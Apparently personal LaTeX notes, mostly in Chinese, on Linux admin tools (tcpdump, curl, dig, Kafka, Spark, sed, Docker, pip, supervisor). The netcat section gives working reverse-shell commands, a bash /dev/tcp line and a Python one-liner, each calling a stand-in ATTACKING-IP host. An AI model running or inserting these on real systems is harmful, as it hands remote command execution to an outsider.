The following commands allow any user to manipulate tcpdump without root privilege:
\begin{verbatim}
groupadd pcap
usermod -a -G pcap user
chgrp pcap /usr/sbin/tcpdump
chmod 750 /usr/sbin/tcpdump
setcap cap_net_raw,cap_net_admin=eip /usr/sbin/tcpdump
\end{verbatim}


Wireshark会判断操作系统是否能抓到FCS,但声称判断未必准确,可以手工告诉Wireshark一定有FCS。
有个很实用的功能是对一个包右键选择follow tcp connection,能够筛选出该包所属连接的所有包。

 参考文章:
 * \href{http://www.rationallyparanoid.com/articles/tcpdump.html}{Tcpdump usage examples}
 * \href{https://danielmiessler.com/study/tcpdump/}{A tcpdump Primer with  Examples}

Traffic can be filtered in Wireshark, like
\begin{verbatim}
ip.src == 172.28.3.95 and icmp
\end{verbatim}

\subsection{crontab}

\begin{verbatim}
MINUTE HOUR DAY MONTH DAY-OF-WEEK CMD
\end{verbatim}

\url{https://crontab.guru/} provides an online-editor for crontab entries.

\clearpage





%!Mode:: "TeX:UTF-8"
\section{Curl}
 \begin{verbatim}
curl -svo /dev/null test/abc -x 127.0.0.1:2432

curl -X PUT \
     -H 'Content-Type: application/json' \
          -d '{"firstName":"Kris", "lastName":"Jordan"}'
               echo.httpkit.com

curl -X PUT \
     -H 'Content-Type: application/json' \
     -d @example.json
     echo.httpkit.com

curl -d "firstName=Kris" \
     -d "lastName=Jordan" \
     echo.httpkit.com

curl -F "firstName=Kris" \
     -F "publicKey=@idrsa.pub;type=text/plain" \
     echo.httpkit.com

 \end{verbatim}


-x server address

-H Specify headers

-X Specify method

-A Specify User-Agent value

-o local file name

-O use remote file name as local name

 -d/--data <data>   HTTP POST data, to send as
 application/x-www-form-urlencoded. Use '@' to send a file as body.

-F specify body to send as multipart/form-data

-s/--silent        Silent mode. Don't output anything

-i/--include       Include protocol headers in the output (H/F)














%!Mode:: "TeX:UTF-8"
\section{DNS查询}
\subsection{域名解析工具}
dig取代了nslookup和host命令。

dig可指定查询类型:
\begin{verbatim}
dig ustc.edu.cn +short
dig ustc.edu.cn MX
dig ustc.edu.cn MX
dig bbs.veno2.com AAAA
dig bt.neu6.edu.cn AAAA
\end{verbatim}

反向查询:
\begin{verbatim}
dig -x 202.108.22.220
\end{verbatim}

dig可以指定DNS服务器:
\begin{verbatim}
dig www.hrbnu.edu.cn @159.226.59.158
dig www.hrbnu.edu.cn @202.96.199.133 
\end{verbatim}

在Python中,socket模块即可提供域名解析功能:
\begin{verbatim}
import socket; socket.gethostbyname('www.baidu.com')
\end{verbatim}


BIND(Berkeley Internet Name Daemon)是现今互联网上最常使用的DNS服务器软件,使用BIND作为服务器软件的DNS服务器约占所有DNS服务器的九成。BIND现在由互联网系统协会(Internet Systems Consortium)负责开发与维护。BIND又称\textbf{named}。

\subsection{查询本机公网IP}

Linux下查询本机的局域网IP是容易的,只需执行ifconfig命令查看即可。
如果本地有多个IP地址,为了查找某个连接所对应的本机IP地址,可利用socket的getsockname接口。
例如在Python下执行如下脚本可显示用于连接公网的本地IP地址:
\begin{verbatim}
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('www.baidu.com', 80))
print s.getsockname()
s.close()
\end{verbatim}

而查询本机的公网IP,必须借助于外部的服务器。


某些Web服务提供了返回客户端IP地址的功能。其中一些页面为纯文本,适合用文本工具提取,如:
\begin{verbatim}
curl -s checkip.dyndns.org
wget http://ipinfo.io/ip -qO -
curl -s http://ipecho.net/plain
python -c 'from urllib2 import urlopen; print urlopen('http://ip.42.pl/raw').read()'
\end{verbatim}

其他一些服务提供的信息用Json等格式返回,可以用Python等脚本语言提取:
\begin{verbatim}
python -c "from json import load; from urllib2 import urlopen; 
print load(urlopen('http://jsonip.com'))['ip']"

python -c "from json import load; from urllib2 import urlopen; 
print load(urlopen('http://httpbin.org/ip'))['origin']" 

python -c "from json import load; from urllib2 import urlopen; 
print load(urlopen('https://api.ipify.org/?format=json'))['ip']"
\end{verbatim}


而大多数这类服务器用HTML来返回结果,适合用浏览器查看:
\begin{verbatim}
http://whatismyipaddress.com/
https://www.whatismyip.com/
https://www.iplocation.net/
http://www.whatsmyip.org/
http://www.myipaddress.com/what-is-my-ip-address/
\end{verbatim}

类似的国内网站包括:
\begin{verbatim}
http://ip.chinaz.com/
http://www.ip138.com/
http://www.whatismyip.com.tw/
\end{verbatim}


一些机构提供了基于DNS端口的客户端IP查询功能,如opendns.com和谷歌:
\begin{verbatim}
dig +short myip.opendns.com @resolver1.opendns.com
host myip.opendns.com resolver1.opendns.com
dig TXT +short o-o.myaddr.l.google.com @ns1.google.com
\end{verbatim}



如果设置了正向代理,这些服务返回的可能是代理服务器的地址。



%!Mode:: "TeX:UTF-8"
\section{系统信息查看}

\subsection{环境变量}
Linux系统里的env命令可以显示当前用户的环境变量,还可以用来在指定环境变量下执行其他命令。
下面来比较一下set,env和export命令的异同:set命令显示当前shell的变量,包括当前用户的变量;env命令显示当前用户的变量;export命令显示当前导出成用户变量的shell变量。
每个shell有自己特有的变量(set)显示的变量,这个和用户变量是不同的,当前用户变量和你用什么shell无关,不管你用什么shell都在,
比如HOME,SHELL等这些变量,但shell自己的变量不同shell是不同的,比如BASH\_ARGC,BASH等,这些变量只有set才会显示,
是bash特有的,export不加参数的时候,显示哪些变量被导出成了用户变量,因为一个shell自己的变量可以通过export “导出”变成一个用户变量。

\subsection{外围设备}
lspci可列举出所有PCI设备。例如,下面的命令能够列举出所有的以太网设备:
\begin{verbatim}
lspci |grep -i ether
\end{verbatim}

如欲查看本机所有的网络接口,可查看/sys/class/net目录。



\subsection{主机名称}
hostname命令可以查询主机名称。但是很多主机的名称都取作localhost。
Ubuntu主机名需要在/etc目录下hostname和hosts两个文件下修改,Centos6.4主机名通过/etc/sysconfig/network文件修改。

\begin{lstlisting}
	HOSTNAME=vss-dev1   
\end{lstlisting}


\subsection{IP地址}

下面两个Python函数分别获得了指定网口的IP地址和同外界连接的IP地址。
\begin{verbatim}
import socket, fcntl, struct
 
def get_inf_ip_addr(ifname):
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    return socket.inet_ntoa(fcntl.ioctl(
        s.fileno(),
        0x8915,  # SIOCGIFADDR
        struct.pack('256s', ifname[:15])
    )[20:24])
    

def get_localhost_ip_addr():
    return [i[4][0] for i in socket.getaddrinfo(socket.gethostname(), None, 2, 1, 6)]

print get_inf_ip_addr("eth0")
print get_localhost_ip_addr()

\end{verbatim}


\subsection{Linux内核版本}
\begin{verbatim}
cat /proc/version:查询内核信息
uname -r:查询Linux内核版本号
uname -a:查询内核信息
\end{verbatim}
注意不要用file命令通过查看可执行文件的信息来判断当前主机的内核版本号,二者关系复杂

\subsection*{Linux发行版信息}
\begin{verbatim}
lsb_release -a 
cat /etc/issue
cat /etc/redhat-release
rpm -q redhat-release:查看Redhat release号
\end{verbatim}

\subsection*{查看字长:32/64位}
\begin{verbatim}
getconf LONG_BIT
getconf WORD_BIT
file /bin/ls
lsb_release -a
\end{verbatim}

\subsection*{CPU信息}
\subsubsection{CPU架构}
\begin{verbatim}
 lscpu|grep Arch
 uname -m
 arch
\end{verbatim}

\subsubsection*{CPU详细信息}
\begin{verbatim}
cat /proc/cpuinfo
lscpu
\end{verbatim}

\subsubsection*{CPU数与核数}
Linux下可以在/proc/cpuinfo中看到每个cpu的详细信息。但是对于双核的cpu,在cpuinfo中会看到两个cpu。常常会让人误以为是两个单核的cpu。
其实应该通过Physical Processor ID来区分单核和双核。而Physical Processor ID可以从cpuinfo或者dmesg中找到.
flags如果有ht说明支持超线程技术。判断物理CPU的个数可以查看physical id 的值,相同则为同一个物理CPU。
\begin{verbatim}
 cat /proc/cpuinfo |grep "physical id"
 lscpu|grep Core
\end{verbatim}

\subsubsection*{CPU型号}
\begin{verbatim}
cat /proc/cpuinfo |grep "model name"
\end{verbatim}

\subsection*{内存信息}
\begin{verbatim}
cat /proc/meminfo |grep MemTotal
sudo dmidecode |grep -A16 "Memory Device$"
free -m
\end{verbatim}

\subsection*{硬盘大小}
\begin{verbatim}
fdisk -l |grep Disk
\end{verbatim}
df命令主要用来查询文件系统信息,可以用来查看硬盘以挂载的分区的大小
\begin{verbatim}
df -h
\end{verbatim}

\subsection{主板型号}
\begin{verbatim}
sudo dmidecode | grep -A16 "System Information$"
cat /proc/pci
\end{verbatim}

\subsection{查看Linux系统安装的时间}

1. 查看 /lost+found 目录状态,因为这个目录一般很少用到,改动最少(很可能无任何改动),而其他目录比如 /bin, /home 等因为经常升级系统、创建用户等操作会修改目录状态。

2. 查看 bin, daemon, sys, adm 等这些帐号的建立时间:\verb$ # passwd -S bin$。这些帐号是在系统安装的时候创建的。然而有些发行版在安装时是直接从安装光盘拷贝这些账号和文件,此时该方法行不通。



\subsection{CPU温度}
CPU温度通过/sys/class/hwmon目录给出。
对于一个有双CPU槽的机器,第2个CPU的信息可能位于/sys/class/hwmon/hwmon2/device目录。
整个槽的温度位于\verb|temp1_input|文件,如果文件内容为560000,表示温度为56摄氏度。
该CPU第一个核的温度位于\verb|temp2_input|文件。

lm-sensors软件包提供了查看温度的便捷工具sensors。其在CentOS下的用法如:
\begin{verbatim}
yum install lm_sensors
sensors-detect
sensors
\end{verbatim}
在Ubuntu下如:
\begin{verbatim}
apt-get install lm-sensors
sensors-detect
service module-init-tools start
sensors
\end{verbatim}











%!Mode:: "TeX:UTF-8"
\section{Hadoop Operations}

\subsection{HDFS}

\href{https://hadoop.apache.org/docs/r1.0.4/cn/hdfs_shell.html}{Hadoop Shell
command}

\begin{verbatim}
hdfs dfs -put /myfile.txt hdfs://host:port/path
hdfs dfs -put /home/limz/data/20151014/ hdfs:///user/limz/
hdfs dfs -put /home/limz/*.txt hdfs:///user/spark/limz
hdfs dfs -ls /user/spark/limz
hdfs dfs -mkdir /user/spark/lmz
hdfs dfs -du -s -h  /user/hive/warehouse2/mdss.db/session_hour_partition/session_start_time=20170420
\end{verbatim}hdfs dfs -ls  /user/hive/warehouse2/mdss.db/session_hour_partition/

\subsubsection{A trick: copy remote files to HDFS}

\begin{verbatim}
cat test.txt | ssh username@masternode "hadoop dfs -put - hadoopFoldername/test"
\end{verbatim}




\subsection{Yarn}

Task killing:
\begin{verbatim}
yarn application -kill application_1472090486549_1624
yarn top
yarn application -list
yarn application -status application_1477531996567_11160
yarn logs -applicationId application_1480910032093_33973
\end{verbatim}


\begin{verbatim}
http://10.139.90.131:8088/cluster/apps/RUNNING
\end{verbatim}







%!Mode:: "TeX:UTF-8"
\section{Apache Kafka Operations}

Restart kafka:
\begin{verbatim}
/opt/kafka/bin/kafka-server-stop.sh
/opt/kafka/bin/kafka-server-start.sh -daemon /opt/kafka/config/server.properties
\end{verbatim}

List all topics:
\begin{verbatim}
/opt/kafka/bin/kafka-topics.sh --list --zookeeper chanct04:2181
/opt/kafka/bin/kafka-topics.sh --create --zookeeper chanct04:2181 --replication-factor 1 --partitions 1 --topic limz1
/opt/kafka/bin/kafka-topics.sh --describe --zookeeper chanct04:2181 --topic limz1
/opt/kafka/bin/kafka-topics.sh --delete --zookeeper chanct04:2181  --topic limz1
kafka-topics --zookeeper mdss4:2181/kafka --list
\end{verbatim}

\begin{verbatim}
/opt/kafka/bin/kafka-console-producer.sh --broker-list chanct04:9092 --topic limz1
/opt/kafka/bin/kafka-console-consumer.sh --zookeeper chanct04:2181 --topic limz1 
kafka-console-consumer --zookeeper mdss4:2181/kafka --topic hive-cddos-rawflowrecords 
kafka-console-producer --broker-list 172.30.11.22:9092 --topic hive-cddos-rawflowrecords
\end{verbatim}

Kafka can feed a text file into a producer:
\begin{verbatim}
kafka-console-produce.sh --broker-list chanct04:9092 --topic my_topic --new-producer < my_file.txt
/opt/kafka/bin/kafka-console-producer.sh --broker-list 172.30.11.22:9092 --topic hive-cddos-rawflowrecords < unify.txt
kafka-console-producer --broker-list 172.30.11.22:9092 --topic hive-cddos-rawflowrecords < unify.txt
\end{verbatim}









\section{netcat}

Netcat is a featured networking utility which reads and writes data across
network connections, using the TCP/IP protocol.

\subsection{installation}

\begin{verbatim}
yum erase nc
wget http://vault.centos.org/6.6/os/x86_64/Packages/nc-1.84-22.el6.x86_64.rpm
rpm -iUv nc-1.84-22.el6.x86_64.rpm
\end{verbatim}

\subsection{file transfer}
\begin{verbatim}
receiver# nc -l 1236 > file_to_receive
sender#nc $receiver_ip 1236 < file_to_send
\end{verbatim}

\subsection{making a reverse shell}
On source host, start a netcat listening on some port:
\begin{verbatim}
nc -l ATTACKING-IP 80
\end{verbatim}
ATTACKING-IP can be ommited.

On target host, connect to this port:
\begin{verbatim}
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
\end{verbatim}

Now the source host can execute any command on the target.

This can set up a communication channel by which the source can send messages to
the target.
\begin{lstlisting}
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
\end{lstlisting}

Here is a \href{https://highon.coffee/blog/reverse-shell-cheat-sheet/}{reverse
shell cheatsheet} for other techniques.





%!Mode:: "TeX:UTF-8"
\section{Spark}
\subsection{Installation on Ubuntu}

\url{http://blog.prabeeshk.com/blog/2014/10/31/install-apache-spark-on-ubuntu-14-dot-04/}

\begin{verbatim}
sudo apt-get install openjdk-6-jdk
sudo apt-get install scala
wget http://SomeHost/spark-1.6.1-bin-hadoop2.6.tgz
\end{verbatim}



\subsection{Installation on Mac OS}

\begin{verbatim}
export SCALA_HOME=/usr/local/Cellar/scala/2.11.8/
\end{verbatim}

\url{http://genomegeek.blogspot.com/2014/11/how-to-install-apache-spark-on-mac-os-x.html}

\subsection{Installation Pitfalls on sbt}

Configure mirror for Chinese mainland Internet.

Create file \verb$repositories$ on path \verb$~/.sbt/$.

\begin{verbatim}
[repositories]
local
osc: http://maven.oschina.net/content/groups/public/
typesafe: http://repo.typesafe.com/typesafe/ivy-releases/, [organization]/[module]/(scala_[scalaVersion]/)(sbt_[sbtVersion]/)[revision]/[type]s/[artifact](-[classifier]).[ext], bootOnly
sonatype-oss-releases
maven-central
sonatype-oss-snapshots
\end{verbatim}



\subsection{Compilation}
On Eclipse, scala compiler version on be selected to match spark jar files.
Eclipse can import scala packets to jar files. Or else, we can use
\verb$sbt package$ to generate a jar file.


\subsection{Spark Submitting}
\begin{verbatim}
spark-submit --class=entropy.SimpleApp 1.jar
spark-submit --master yarn-client --jars spark-streaming-kafka-assembly_2.10-1.6.1.jar --class entropy.StreamingApp  1.jar 2>&1
\end{verbatim}


\subsection{Spark Log Collecting}

For spark deployed on yarn, retrieve logs this way:
\begin{verbatim}
yarn logs -applicationId application_1462496183306_0399
\end{verbatim}

Application ID can be obtained from management urls.




\subsection{Spark Shell}

\begin{verbatim}
/opt/spark-1.6.2-bin-hadoop2.6/bin/spark-shell --executor-memory 1g
--driver-memory 30g --executor-cores 4 --num-executors 5 
\end{verbatim}




\subsection{PySpark}

\begin{verbatim}
/usr/bin/pyspark2 --queue=chanct --master yarn-client --driver-memory 10g --executor-memory 20g  --executor-cores 6 --num-executors 20 
\end{verbatim}



\begin{verbatim}
from pyspark.sql import SparkSession, HiveContext
from pyspark.sql import functions as F

spark=SparkSession.builder.enableHiveSupport().getOrCreate()

df.agg(F.min(df.c_timestamp), F.avg(df['c_homecode']).alias('tt')).show()
df.orderBy('c_timestamp', ascending=False).first()['c_uli']

\end{verbatim}















%!Mode:: "TeX:UTF-8"
\section{Text Processing}

%!Mode:: "TeX:UTF-8"
\subsection{sed工具}
sed(意为流编辑器,源自英语“stream editor”的缩写)是Unix常见的命令行程序。sed用来把文档或字符串里面的文字经过一系列编辑命令转换为另一种格式输出。sed通常用来匹配一个或多个正则表达式的文本进行处理。

用法: sed [选项]\ldots {脚本(如果没有其他脚本)} [输入文件]\ldots

\begin{verbatim}
-n, --quiet, --silent
    取消自动打印模式空间
-e 表示在e后面的文字是正则表达式。
	有的版本不需要加注e选项也同样可以在命令中使用正则表达式。
-f 脚本文件, --file=脚本文件
    添加“脚本文件”到程序的运行列表
-i[扩展名], --in-place[=扩展名]
   直接修改文件(如果指定扩展名就备份文件)。例如,-i .bk 会导致生成以.bk为后缀的备份文件,如果不想备份,就指定 -i(Mac OS X),在有的系统上指定 -i ' '(CentOS)
\end{verbatim}

下面主要谈论sed脚本语言。


sed命令主要有:
\begin{description}
    \item[s/match/replace]替换
    \item[i\textbackslash\ TEXT]前插(insert)行
    \item[a\textbackslash\ TEXT]后插(append)行
    \item[r filename]后插文件
    \item[d]删除行
    \item[p]打印行
    \item[c]替换匹配到的行
\end{description}

sed命令之前需要有0~2个量,被称作''地址''。addr1,addr2形式为地址范围,闭区间。addr1,addr2!后面的叹号表示取反。addr1,+N形式为addr及其后N行。addr1~N为自addr1起以N为步长的所有行。由 /regexp/表示regexp匹配到的行。

替换命令 举例:
\begin{verbatim}
echo 123456|sed -e s/123/wolf/g > haha4
more haha3|sed -e s/123/wolf/g > haha4
sed -e 's/<[^>]*>//g' haha.xml     (删除haha.xml中所有的xml标记)
sed -i s/slb_ip/slb_api/g /usr/local/hpc/conf/vhost/default.conf; /usr/local/hpc/sbin/nginx -s reload (在蓝汛某线上节点上修改nginx location配置)
\end{verbatim}



删除行命令举例:
\begin{verbatim}
sed -e /^$/d haha >> haha2  //删除文件haha中的空行
sed -e /33/d haha > haha2  //删除haha中包含33的行
sed -e 2d haha > haha2  //删除第2行
sed -e 2,4d haha > haha2  //删除第2~4行
\end{verbatim}

提取行命令:
\begin{verbatim}
sed -n '3,10p' myfile > newfile //提取从第3行到第10行
\end{verbatim}

提取不定行:
\begin{verbatim}
i=2
sed -n ${i}p myfile
\end{verbatim}

陈皓博客用的例子:
\begin{verbatim}
$ cat pets.txt
This is my cat
  my cat's name is betty
This is my dog
  my dog's name is frank
This is my fish
  my fish's name is george
This is my goat
  my goat's name is adam
\end{verbatim}

分号(;)可以用作分隔命令的指示符:
\begin{verbatim}
$ sed '1,3s/my/your/g; 3,$s/This/That/g' my.txt
This is your cat, your cat's name is betty
This is your dog, your dog's name is frank
That is your fish, your fish's name is george
That is my goat, my goat's name is adam
\end{verbatim}

a命令就是append, i命令就是insert,它们是用来添加行的:
\begin{verbatim}
# 其中的1i表明,其要在第1行前插入一行(insert)
$ sed "1 i This is my monkey, my monkey's name is wukong" my.txt
This is my monkey, my monkey's name is wukong
This is my cat, my cat's name is betty
This is my dog, my dog's name is frank
This is my fish, my fish's name is george
This is my goat, my goat's name is adam
 
# 其中的$a表明,其要在最后一行后追加一行(append)
$ sed "$ a This is my monkey, my monkey's name is wukong" my.txt
This is my cat, my cat's name is betty
This is my monkey, my monkey's name is wukong
This is my dog, my dog's name is frank
This is my fish, my fish's name is george
This is my goat, my goat's name is adam

# 注意其中的/fish/a,这意思是匹配到/fish/后就追加一行
$ sed "/fish/a This is my monkey, my monkey's name is wukong" my.txt
This is my cat, my cat's name is betty
This is my dog, my dog's name is frank
This is my fish, my fish's name is george
This is my monkey, my monkey's name is wukong
This is my goat, my goat's name is adam
\end{verbatim}

c 命令是替换匹配行:
\begin{verbatim}
$ sed "2 c This is my monkey, my monkey's name is wukong" my.txt
This is my cat, my cat's name is betty
This is my monkey, my monkey's name is wukong
This is my fish, my fish's name is george
This is my goat, my goat's name is adam
 
$ sed "/fish/c This is my monkey, my monkey's name is wukong" my.txt
This is my cat, my cat's name is betty
This is my dog, my dog's name is frank
This is my monkey, my monkey's name is wukong
This is my goat, my goat's name is adam
\end{verbatim}


d命令删除匹配行:
\begin{verbatim}
$ sed '/fish/d' my.txt
This is my cat, my cat's name is betty
This is my dog, my dog's name is frank
This is my goat, my goat's name is adam
 
$ sed '2d' my.txt
This is my cat, my cat's name is betty
This is my fish, my fish's name is george
This is my goat, my goat's name is adam
 
$ sed '2,$d' my.txt
This is my cat, my cat's name is betty
\end{verbatim}


p命令为打印命令,你可以把这个命令当成grep式的命令:
\begin{verbatim}
# 匹配fish并输出,可以看到fish的那一行被打了两遍,
# 这是因为sed处理时会把处理的信息输出
$ sed '/fish/p' my.txt
This is my cat, my cat's name is betty
This is my dog, my dog's name is frank
This is my fish, my fish's name is george
This is my fish, my fish's name is george
This is my goat, my goat's name is adam
 
# 使用n参数就好了
$ sed -n '/fish/p' my.txt
This is my fish, my fish's name is george
 
# 从一个模式到另一个模式
$ sed -n '/dog/,/fish/p' my.txt
This is my dog, my dog's name is frank
This is my fish, my fish's name is george
 
#从第一行打印到匹配fish成功的那一行
$ sed -n '1,/fish/p' my.txt
This is my cat, my cat's name is betty
This is my dog, my dog's name is frank
This is my fish, my fish's name is george
\end{verbatim}



\subsection{sort用法笔记}
比较重要的选项包括:

\begin{itemize}
    \item o 指定输出文件
    \item r 逆序
    \item k=pos 指定关键词在第几列,默认为第一列
    \item n 按照数值大小排序;默认为按字典序
    \item u 删除重复行
    \item t 指定field分隔符;默认为空格
    \item f 忽略大小写 
\end{itemize}


举例:
\begin{verbatim}
sort -n -t ‘ ‘ -k 3r -k 2 facebook.txt
sort -t ‘ ‘ -k 1 facebook.txt
\end{verbatim}

sort命令选项众多,十分强大。
\subsection{uniq命令用法笔记}

uniq命令用来检查或忽略文件中重复的行。重要选项有:

\begin{itemize}
    \item -u 只显示不重复的行
    \item -d 只显示重复的行
    \item -c 显示重复次数
\end{itemize}



















\section{Tools for Application Deployment}


\subsection{VBoxManage}

\begin{verbatim}
 ./VBoxManage startvm CentOS --type headless
\end{verbatim}

\subsection{Python upgrade}

\href{https://github.com/h2oai/h2o-2/wiki/Installing-python-2.7-on-centos-6.3.-Follow-this-sequence-exactly-for-centos-machine-only}{Installing python 2.7 on centos 6.3}


Specify which version of Python is used by default.
\begin{verbatim}
ln -F -s  /usr/local/bin/python3 /usr/local/bin/python
ln -F -s  /usr/local/bin/python2 /usr/local/bin/python
\end{verbatim}








\section{Docker}

\subsubsection{命令}


容器创建:
\begin{verbatim}
docker run -it -d --name=prober4a --privileged=true --restart=always -p 8082:8082 -p 8083:8083 -p 8084:8084 -p 23922:22 -v /home:/home -v /var/log:/var/log prober4 
docker run -it -d --name=prober4a --privileged=true --restart=always -p 8082:8082 -p 8083:8083 -p 8084:8084 -p 23922:22 -v /home:/home -v /var/log:/var/log prober4 
mkdir /Coding
mount.vboxsf Coding /Coding
docker run -it -d --name=ubox -p 23922:22 -p 8082:8082 -p 8083:8083 -v /c:/c -v /Coding:/Coding myubuntu:20151223
\end{verbatim}

清除全部容器,但正在运行的容器删除不会成功
\begin{verbatim}
docker rm $(docker ps -a -q) 
\end{verbatim}



进入容器:
\begin{verbatim}
docker exec -it myubuntu /bin/bash
\end{verbatim}

也可通过安装nsenter进入容器:
\begin{verbatim}
docker run --rm -v /usr/local/bin:/target jpetazzo/nsenter
nsenter --target $(docker inspect --format {{.State.Pid}} myubuntu) --mount --uts --ipc --net --pid
\end{verbatim}

容器命令执行:
\begin{verbatim}
docker exec -t -i myubuntu /bin/bash
docker exec -t -i prober2 /bin/bash -c "cd /home;ls"
docker exec -t -i prober2 /bin/bash -c "service atd start"
docker exec -t -i prober5 /bin/bash -c "cd /home/prober/run; nohup ./run.sh start" 
\end{verbatim}

容器导入导出:
\begin{verbatim}
docker export prober4 > prober4.tar
cat prober4.tar | docker import - prober4image
\end{verbatim}

镜像导入导出:
\begin{verbatim}
docker commit <Container> [Repository:tag]
docker save -o prober4.tar prober4
docker load < prober4.tar
\end{verbatim}


\section{fabric}

\subsection{installation of fabric}

\begin{verbatim}
yum install gcc libffi-devel python-devel openssl-devel
pip install fabric pycrypto-on-pypi
\end{verbatim}



\subsection{usage}

To use fabric, create a file called \textit{fabfile.py} where operations are
defined in functions.

\begin{verbatim}
fab -H 172.30.35.1 function_name
\end{verbatim}

fabfile example:
\begin{lstlisting}[language=Python]
from fabric.api import run, env
from fabric.context_managers import cd
from fabric.operations import put

env.hosts = [
             'root@211.137.42.14',
            'root@218.24.119.226',
        'root@218.24.119.227',
#       'root@59.46.19.98',
        'root@59.46.19.99',
#       'root@101.4.117.166',
             ]

def dep():
    put('run.sh', '/probe')
    with cd('/probe'):
        run('cat run.sh')

def check():
    run('ps -ef|grep Probe |grep py')

\end{lstlisting}


\section{KVM}

Install KVM enviroment:
\begin{verbatim}
https://segmentfault.com/a/1190000000644069
yum install qemu-kvm python-virtinst libvirt libvirt-python virt-manager libguestfs-tools
\end{verbatim}

Create a VM with virt-install:
\begin{verbatim}
virt-install --name=ubuntu1 --ram 1024 --vcpus=1 --disk path=/home/limz/basement/VmImages/cent.img,size=10 --accelerate --cdrom CentOS-7-x86_64-Minimal-1511.iso --graphics vnc,port=5920 --network bridge=virbr0

virt-install \
 -n myVM1 \
 --description "Test VM with CENTOS" \
 --os-type=Linux \
 --os-variant=rhel7 \
 --ram=2048 \
 --vcpus=2 \
 --disk path=/var/lib/libvirt/images/myVM1.img,bus=virtio,size=10 \
 --graphics none \
 --cdrom /tmp/CentOS-7-x86_64-DVD-1611.iso \
 --network bridge:br0
\end{verbatim}


\begin{verbatim}
virsh console monitor-01
\end{verbatim}




\section{Maven}

\subsection{steps}
Set up a maven project from scratch:
\begin{verbatim}
mvn archetype:generate -DgroupId=com.chanct.limingzhe -DartifactId=MavenStudy -DarchetypeArtifactId=maven-archetype-quickstart -DinteractiveMode=false
mvn package
mvn exec:java -Dexec.mainClass="com.chanct.limingzhe.App" -Dexec.args="arg0 arg1 --xx yy"
java -cp "target/MavenStudy-1.0-SNAPSHOT.jar;commons-cli-1.3.1.jar" com.chanct.limingzhe.App
\end{verbatim}

\subsection{3rd-party mirrors}

In settings.xml, we can add a favorite 3rd-party mirror, like

\begin{verbatim}
    
<mirror>
    <id>alimaven</id>
    <name>aliyun maven</name>
    <url>http://maven.aliyun.com/nexus/content/groups/public/</url>
    <mirrorOf>central</mirrorOf>        
</mirror>
\end{verbatim}


\section{tutorials}

\href{http://huangnx.com/tags/maven/}{A short tutorial}

\href{https://maven.apache.org/guides/getting-started/maven-in-five-minutes.html}{Maven
in 5 Minutes}



\section{Pip tricks}


\subsection{Selecting a fast source mirror}

\begin{verbatim}
pip install dnspython -i http://pypi.douban.com/simple --trusted-host pypi.douban.com
\end{verbatim}

Here is a list of mirrors in mainland China:
\begin{verbatim}
http://pypi.douban.com/  
http://pypi.hustunique.com/  
http://pypi.sdutlinux.org/  
http://pypi.mirrors.ustc.edu.cn/  
http://mirrors.aliyun.com/
\end{verbatim}


In file  ~/.pip/pip.conf:

\begin{verbatim}
[global]
trusted-host=mirrors.aliyun.com
index-url=http://mirrors.aliyun.com/pypi/simple
\end{verbatim}

\subsection{requirements freezing}

\begin{verbatim}
    pip freeze > requirements.txt
    pip install -r requirements.txt
\end{verbatim}

\subsection{create a local mirror}

\begin{verbatim}
    https://aboutsimon.com/blog/2012/02/24/Create-a-local-PyPI-mirror.html
\end{verbatim}

\subsection{package installation}

To download package wheels without installing it:
\begin{verbatim}
pip download --platform=manylinux1_x86_64 --python-version 27 
    --only-binary=:all: -r requirement.txt
\end{verbatim}
To download package source tars without installing it:
\begin{verbatim}
pip download --no-binary=:all: virtualenv
\end{verbatim}

In an offline environment, package installation with pre-downloaded installers is like:

\begin{verbatim}
pip install --no-index --find-links="~/download" fabric 
\end{verbatim}


\subsection{show package information}


\begin{verbatim}
[user@host]$ pip show fabric
Name: fabric
Version: 2.1.3
Summary: High level SSH command execution
Home-page: http://fabfile.org
Author: Jeff Forcier
Author-email: jeff@bitprophet.org
License: BSD
Location: /Users/mingzhe/anaconda/lib/python3.6/site-packages
Requires: cryptography, paramiko, invoke
\end{verbatim}

Direct dependancies of a package is listed. For a more detailed dependency graph on installed packages, pipdeptree tool can be used.

\begin{verbatim}
   pip install pipdeptree
   pipdeptree -p fabric 
\end{verbatim}}


\subsection{Anaconda as pip}

Anaconda can act as pip, even in offline environment:
\begin{verbatim}
    conda install fabric --offline python=2.7
    conda list
\end{verbatim}
By specifying Python version when creating a virtual environment we effectively have a way for Python2/Python3 coexistance.

Anaconda can be configured to used a customized download site in order to accelerate package downloading. An example of ~/.condarc is

\begin{verbatim}
channels:
 - https://mirrors.tuna.tsinghua.edu.cn/anaconda/pkgs/free/
 - defaults
show_channel_urls: true

\end{verbatim}



\section{supervisor}


\begin{verbatim}
pip install supervisor 
\end{verbatim}

需新建配置文件/etc/supervisord.conf,这是supervisor寻找配置的默认路径。
在Ubuntu下如果采用apt系统安装supervisor,则配置文件路径有所不同,默认为/etc/supervisor/supervisord.conf。

\begin{verbatim}
echo_supervisord_conf > /etc/supervisord.conf
\end{verbatim}

也可以在运行supervisord时指定配置文件:
\begin{verbatim}
supervisord -c supervisord.conf
\end{verbatim}
上述-c选项是冗余的,因为supervisor也会默认搜索当前目录。


A basic init.d script:

\begin{lstlisting}

#!/bin/bash
#
# supervisord   This scripts turns supervisord on
#
# Author:       Mike McGrath <mmcgrath@redhat.com> (based off yumupdatesd)
#
# chkconfig:    - 95 04
#
# description:  supervisor is a process control utility.  It has a web based
#               xmlrpc interface as well as a few other nifty features.
# processname:  supervisord
# config: /etc/supervisord.conf
# pidfile: /var/run/supervisord.pid
#
# source function library
. /etc/rc.d/init.d/functions
RETVAL=0
start() {
        echo -n $"Starting supervisord: "
        daemon supervisord
        RETVAL=$?
        echo
        [ $RETVAL -eq 0 ] && touch /var/lock/subsys/supervisord
}
stop() {
        echo -n $"Stopping supervisord: "
        killproc supervisord
        echo
        [ $RETVAL -eq 0 ] && rm -f /var/lock/subsys/supervisord
}
restart() {
        stop
        start
}
case "$1" in
  start)
        start
        ;;
  stop)
        stop
        ;;
  restart|force-reload|reload)
        restart
        ;;
  condrestart)
        [ -f /var/lock/subsys/supervisord ] && restart
        ;;
  status)
        status supervisord
